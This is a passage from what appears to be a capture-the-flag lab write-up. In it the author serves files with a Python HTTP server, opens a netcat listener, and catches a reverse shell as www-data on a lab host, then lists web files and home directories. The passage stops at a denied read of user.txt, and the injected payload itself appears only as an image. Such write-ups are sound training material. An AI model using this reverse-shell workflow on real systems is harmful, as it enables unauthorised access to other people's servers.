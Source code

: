 ```
└─$ sudo python3 -m http.server 80     
[sudo] password :
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
```

Now we insert the created chain in the url :

<img src="../../Flameshots/a799d8f7be346af16bb877ab2ee69646.png" alt="a799d8f7be346af16bb877ab2ee69646.png" width="319" height="175" class="jop-noMdConv">

Now we should have the shell :

![4dfea39a25ea544b498ad7d1e0e8cf1d.png](4dfea39a25ea544b498ad7d1e0e8cf1d.png)

```
www-data@ip-10-10-8-70:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-10-8-70:/var/www/html$ ls
ls
adminpanel.css
images
index.html
login.css
login.php
messages.html
orders.html
secret-script.php
style.css
supersecretadminpanel.html
supersecretmessageforadmin
users.html

```

And we search for the flag :

```
www-data@ip-10-10-8-70:/var/www/html$ cd /home/
cd /home/
www-data@ip-10-10-8-70:/home$ ls
ls
comte
ubuntu
www-data@ip-10-10-8-70:/home$ cd comte
cd comte
www-data@ip-10-10-8-70:/home/comte$ ls
ls
snap
user.txt
www-data@ip-10-10-8-70:/home/comte$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
